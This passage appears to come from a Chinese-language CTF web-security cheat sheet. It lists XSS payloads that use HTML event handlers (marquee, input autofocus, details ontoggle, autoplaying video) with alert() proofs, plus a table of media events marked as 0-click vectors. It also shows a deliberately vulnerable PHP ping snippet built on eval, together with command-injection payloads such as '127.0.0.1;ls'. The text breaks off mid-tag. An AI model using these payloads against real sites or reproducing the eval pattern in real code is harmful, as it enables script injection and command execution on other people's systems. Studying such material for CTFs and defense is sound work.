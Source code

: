 ```
<div style="width:1000px;height:1000px" onmouseover=alert()></div>

<marquee width=10 loop=2 behavior="alternate" onbounce=alert()> (firefox only)

<marquee onstart=alert(1)> (firefox only)

<marquee loop=1 width=0 onfinish=alert(1)> (firefox only)

<input autofocus="" onfocus=alert(1)></input>

<details open ontoggle="alert()">  (chrome & opera only)
```

事件名称 标签 备注
onplay video, audio 适用于 0-click：结合 HTML 的 autoplay 属性以及结合有效的视频/音频
onplaying video, audio 适用于 0-click: 结合 HTML 的 autoplay 属性以及结合有效的视频/音频
oncanplay video, audio 必须链接有效的视频/音频
onloadeddata video, audio 必须链接有效的视频/音频
onloadedmetadata video, audio 必须链接有效的视频/音频
onprogress video, audio 必须链接有效的视频/音频
onloadstart video, audio 潜在的 0-click 向量
oncanplay video, audio 必须链接有效的视频/音频

```
<video autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadeddata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadedmetadata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadstart="a
```

## 5. ping 命令执行

一般这种题目会给一个输入框, 输入 ip 执行 ping 这个 ip 的命令。类似这种实现：

```php
$ip = $_GET['ip'];
eval("ping ".$ip);
```

常见 payload:

```
127.0.0.1;ls
127.0.0.1&ls
127.0.0.1
```

{% endraw %}
